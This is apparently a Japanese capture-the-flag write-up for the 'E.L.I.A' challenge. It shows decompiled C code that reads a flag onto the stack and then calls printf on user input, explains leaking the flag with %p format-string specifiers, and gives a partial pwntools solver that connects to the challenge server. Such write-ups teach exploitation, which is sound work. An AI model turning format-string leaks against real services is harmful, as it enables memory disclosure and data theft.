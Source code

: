 # E.L.I.A
バイナリの解析結果は以下。
```c
undefined8 main(void)

{
  FILE *flag_fd;
  undefined8 uVar1;
  char *pcVar2;
  EVP_PKEY_CTX *ctx;
  long in_FS_OFFSET;
  char local_68 [38];
  undefined local_42;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  signal(0xe,handle_alarm);
  ctx = (EVP_PKEY_CTX *)0x1e;
  alarm(0x1e);
  init(ctx);
  flag_fd = fopen("flag.txt","r");
  if (flag_fd == (FILE *)0x0) {
    puts("Error: File not found");
    uVar1 = 1;
  }
  else {
    pcVar2 = fgets(local_68,0x26,flag_fd);
    if (pcVar2 == (char *)0x0) {
      puts("Error: Flag file is empty");
      uVar1 = 1;
    }
    else {
      fclose(flag_fd);
      local_42 = 0;
      puts("Wow, it actually compiled! Do you want to write something?");
      fgets(local_38,0x1e,stdin);
      printf(local_38);
      uVar1 = 0;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    /* WARNING: Subroutine does not return * /
    __stack_chk_fail();
  }
  return uVar1;
}
```
FSBが存在しており、かつフラグは読まれてスタックに格納されていることが分かります。`%s`で読み出そうとするとなんかうまく行かないので`%p`で0から20番目までの引数を読み出してみたところ、8から12番目に印字可能な数値が続いていました。これを考慮して適当にsolverを書きます。
```python
from pwn import *

file = './elia'
elf = context.binary = ELF(file)
context.log_level = 'error'

hex = []

for i in range(8, 13):
    p = remote('elia.challs.pascalctf.it', 1339)
    p.recvline()
    print(f'i = {i}')
```